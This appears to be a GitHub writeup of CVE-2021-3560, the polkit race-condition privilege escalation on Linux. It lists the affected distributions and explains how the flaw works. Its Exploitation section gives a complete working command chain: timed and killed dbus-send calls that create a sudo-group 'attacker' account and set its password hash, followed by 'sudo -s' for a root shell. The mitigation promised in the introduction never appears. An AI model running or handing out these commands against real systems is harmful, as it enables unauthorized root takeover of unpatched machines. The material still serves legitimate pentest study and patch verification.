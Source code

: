 CVE-2021-3560 has emerged as a significant concern for Linux-based systems. This security flaw (via Race Condition), also known as the "Polkit" vulnerability, allows local attackers to gain root privileges, potentially leading to complete compromise of the affected system. In this article, we will delve into the details of CVE-2021-3560, its impact, and recommended measures to mitigate the risk, the exploit is fully explained here: https://kaarb0.medium.com/exploitation-of-cve-2021-3560-cecfdf250397.
# Useful Information:

Specifically, the following mainstream distributions, amongst others, were vulnerable:

- Red Hat Enterprise Linux 8
- Fedora 21 (or later)
- Debian Testing ("Bullseye")
- Ubuntu 20.04 LTS ("Focal Fossa")

Canonical released a patch for their version of polkit (`policykit-1`), which has version number `0.105-26ubuntu1.1`. The last vulnerable version available in the apt repositories for Focal Fossa is `0.105-26ubuntu1`.

We can use `apt list --installed | grep policykit-1` to check the installed version of polkit.
# Exploitation

First, we need to determine how long our command will take to run. Let's try this with the first dbus message, so we know when to kill the command (try to kill the command approximately halfway through execution):

```bash
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```

Suppose it took 10 or 11 ms so we need to kill it after 0.005s (we might try this several times to work), we send the following dbus message to add a new account named "Attacker" with sudo permissions, with a description of "Pentester Account" and membership of the sudo group set to true (referenced by the `int32:1` flag):

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```

Now, Using openssl, we generate a password of type 6 (SHA512-crypt) and our plaintext password (`test123`).

```bash
openssl passwd -6 test123
```

Then, we send another dbus message to set the password by changing the hash below for the new account with a hint "Ask the pentester", note that we must check the id number of the user we added using `id <username>`, suppose it is `1000` then we add 1000 like below: 

```bash
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$t4zNXiNz7BtiSp9a$PcyHUTHMhjLn5T8mp5HqqfrUTthjLRR3hHht8yU9BOEwXWen7Yhf0uV4RdGTwghnqXWSANvX2gj.74GSDUmGn0' string:'Ask the pentester' & sleep 0.005s; kill $!
```

Finally, run this command to get a root shell `sudo -s`.
# How is Polkit Vulnerable ?

By manually sending dbus messages to the dbus-daemon (effectively an API to allow different processes the ability to communicate with each  
other), then killing the request before it has been fully processed, we can trick polkit into authorising the command. If you are not familiar with daemons, they are effectively background services running on Linux. The dbus-daemon is a program running in the background which brokers messages between applications.

The attacker manually sends a dbus message to the accounts-daemon requesting the creation of a new account with sudo permissions (or latterly, a password to be set for the new user). This message gets given a unique ID by the dbus-daemon.  
The attacker kills the message after polkit receives it, but before polkit has a chance to process the message. This effectively destroys the unique message ID. Polkit asks the dbus-daemon for the user ID of the user who sent the message, referencing the (now deleted) message ID.  
The dbus-daemon can’t find the message ID because we killed it in step two. It handles the error by responding with an error code.  
Polkit mishandles the error and substitutes in 0 for the user ID — i.e. the root account of the machine.  
Thinking that the root user requested the action, polkit allows the request to go through unchallenged.  
In short, by destroying the message ID before the dbus-daemon has a chance to give polkit the correct ID, we exploit the poor error-handling in polkit to trick the utility  
into thinking that the request was made by the all-powerful root user.
